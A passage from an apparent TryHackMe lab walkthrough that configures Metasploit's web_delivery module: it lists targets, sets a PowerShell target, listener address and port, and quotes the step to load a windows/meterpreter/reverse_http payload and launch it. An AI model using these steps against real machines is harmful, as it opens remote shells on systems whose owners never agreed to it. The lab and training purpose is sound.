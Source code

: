 ~~~
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python
~~~

As you can see, we need to set the target to `PSH`. Run `show targets` and you can see the ID of the powershell:

~~~
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   SyncAppvPublishingServer
   6   PSH (Binary)
   7   Linux
   8   Mac OS X
~~~

Answer: `2`

### 4.3 - After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

Let's set the options:

~~~
msf6 exploit(multi/script/web_delivery) > set LHOST tun0
LHOST => 10.9.**.***
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set LPORT 4321
LPORT => 4321
~~~

No answer needed

### 4.4 -  Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.
